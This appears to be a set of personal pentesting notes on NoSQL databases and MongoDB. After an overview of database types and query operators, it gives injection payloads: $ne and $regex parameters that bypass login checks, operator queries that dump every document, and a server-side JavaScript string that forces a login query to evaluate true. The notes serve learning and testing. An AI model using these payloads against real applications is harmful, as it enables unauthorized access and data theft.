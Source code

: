 ___
SQL but without tables. MongoDB is most popular. 
more common, with `MongoDB` now being the [5th most used](https://db-engines.com/en/ranking) database engine (as of November 2022).
The way `NoSQL` databases store data varies significantly across the different categories and implementations.

| Type                       | Description                                                                                                                                                        | Top 3 Engines (as of November 2022)                                                                                                                                                |
| -------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------ | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| Document-Oriented Database | Stores data in `documents` which contain pairs of `fields` and `values`. These documents are typically encoded in formats such as `JSON` or `XML`.                 | [MongoDB](https://www.mongodb.com/), [Amazon DynamoDB](https://aws.amazon.com/dynamodb/), [Google Firebase - Cloud Firestore](https://firebase.google.com/products/firestore/)     |
| Key-Value Database         | A data structure that stores data in `key:value` pairs, also known as a `dictionary`.                                                                              | [Redis](https://redis.io/), [Amazon DynamoDB](https://aws.amazon.com/dynamodb/), [Azure Cosmos DB](https://azure.microsoft.com/en-us/products/cosmos-db/)                          |
| Wide-Column Store          | Used for storing enormous amounts of data in `tables`, `rows`, and `columns` like a relational database, but with the ability to handle more ambiguous data types. | [Apache Cassandra](https://cassandra.apache.org/_/index.html), [Apache HBase](https://hbase.apache.org/), [Azure Cosmos DB](https://azure.microsoft.com/en-us/products/cosmos-db/) |
| Graph Database             | Stores data in `nodes` and uses `edges` to define relationships.                                                                                                   | [Neo4j](https://neo4j.com/), [Azure Cosmos DB](https://azure.microsoft.com/en-us/products/cosmos-db/), [Virtuoso](https://virtuoso.openlinksw.com/)                                |
## MongoDB
___
MongoDB Usage cheatsheet: https://www.mongodb.com/developer/products/mongodb/cheat-sheet/#connect-mongodb-shell

Mongo uses query operators to interact and compare fields. Here are some examples:
[query operators](https://www.mongodb.com/docs/manual/reference/operator/query/).

| Type       | Operator | Description                                                               | Example                                      |
| ---------- | -------- | ------------------------------------------------------------------------- | -------------------------------------------- |
| Comparison | `$eq`    | Matches values which are `equal to` a specified value                     | `type: {$eq: "Pink Lady"}`                   |
| Comparison | `$gt`    | Matches values which are `greater than` a specified value                 | `price: {$gt: 0.30}`                         |
| Comparison | `$gte`   | Matches values which are `greater than or equal to` a specified value     | `price: {$gte: 0.50}`                        |
| Comparison | `$in`    | Matches values which exist `in the specified array`                       | `type: {$in: ["Granny Smith", "Pink Lady"]}` |
| Comparison | `$lt`    | Matches values which are `less than` a specified value                    | `price: {$lt: 0.60}`                         |
| Logical    | `$not`   | Matches documents which `do not meet the conditions` of a specified query | `type: {$not: {$eq: "Granny Smith"}}`        |
| Evaluation | `$regex` | Matches values which `match a specified RegEx`                            | `type: {$regex: /^G.*/}`                     |
### Basic Injection Example
---
**Auth Bypass**
Normal data:
```
email=test@test.com&password=test
```
Becomes:
```
email[$ne]=test@test.com&password[$ne]=test
```
![](../../assets/Pasted%20image%2020250629152540.png)
This will evaluate to TRUE (unless the values actually exist) and bypass auth.
OR match anything and always eval to true:
```
email[$regex]=.*&password[$regex]=.*
```
**Data Extraction**
Ways can match ALL data from an injection point and return it:
- `name: {$ne: 'doesntExist'}`: Assuming `doesntExist` doesn't match any documents' names, this will match all documents.
- `name: {$gt: ''}`: This matches all documents whose name is 'bigger' than an empty string.
- `name: {$gte: ''}`: This matches all documents whose name is 'bigger or equal to' an empty string.
- `name: {$lt: '~'}`: This compares the first character of `name` to a Tilde character and matches if it is 'less'. This will not always work, but it works in this case because Tilde is the [largest printable ASCII value](https://www.asciitable.com/), and we know that all names in the collection are composed of ASCII characters.
- `name: {$lte: '~'}`: Same logic as above, except it additionally matches documents whose names start with `~`.

### Server-Side JavaScript Injection
---
Execute arbitrary JavaScript in the context of the database.
**Auth bypass**
![](../../assets/Pasted%20image%2020250629153121.png)
we could set `username` to `" || true || ""=="`, which should result in the query statement always returning `True`, regardless of what `this.username` and `this.password` are.
![](../../assets/Pasted%20image%2020250629153156.png)
